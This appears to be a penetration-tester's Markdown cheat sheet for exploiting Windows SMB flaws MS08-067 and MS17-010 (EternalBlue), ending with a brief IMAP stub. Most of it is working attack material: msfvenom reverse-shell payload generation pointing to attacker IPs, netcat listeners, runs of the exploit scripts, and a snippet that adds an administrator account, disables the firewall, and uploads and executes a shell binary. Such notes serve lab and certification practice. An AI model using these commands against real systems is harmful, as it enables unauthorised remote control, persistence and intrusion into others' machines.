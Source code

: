 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.33 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

nc -nvlp 443
python2 ms-067.py target-ip OSversioncode Target-port
```

* msfconsole
exploit/windows/smb/ms08-067-netapi

### ms17-010
https://0xdf.gitlab.io/2019/02/21/htb-legacy.html
https://medium.com/@siddharth.singhal1995/htb-walkthrough-legacy-without-metasploit-2-1baa34ade364
[EternalBlue without Metasploit](https://redteamzone.com/EternalBlue/)
[Autoblue ms17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

* send_and_execute.py
git repo, https://github.com/helviojunior/MS17-010
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.196 LPORT=443 EXITFUNC=thread -f exe -a x86 — platform windows -o shell-443.exe

nc -nvlp 443
python2 send_and_execute targetid shell.exe
```

> `STATUS_ACCESS_DENIED`, set USERNAME `guest`
> `Not found accessible named pipe.`, set USERNAME `guest`

* exploit 42315
```bash
## add user, psexec
service_exec(conn, r'cmd /c net user test Password123 /add & net localgroup administrators shadow /add')
service_exec(conn, r'cmd /c net localgroup administrators test /add')
service_exec(conn, r'cmd /c netsh firewall set opmode disable')

psexec.py test:Password123@ip

smb_send_file(smbConn,'shell.exe','C','/windows/tasks/yourfile')
service_exec(conn, r'cmd /c C:\windows\tasks\yourfile <some syntax>')
# or no cmd /c 
service_exec(conn, r'C:\windows\tasks\yourfile <some syntax>')
```

* msf
exploit/windows/smb/ms17_010_eternalblue
exploit/windows/smb/ms17_010_psexec

## 143/993-IMAP
+ IMAP，Internet Mail Access Protocol，收取邮件。从本地邮件客户端（outlook）访问远程server上的邮件，同时将客户端的邮件操作反馈到服务器。
+ get mail, found info.
+ pg hepet, get mail and client-side attack.
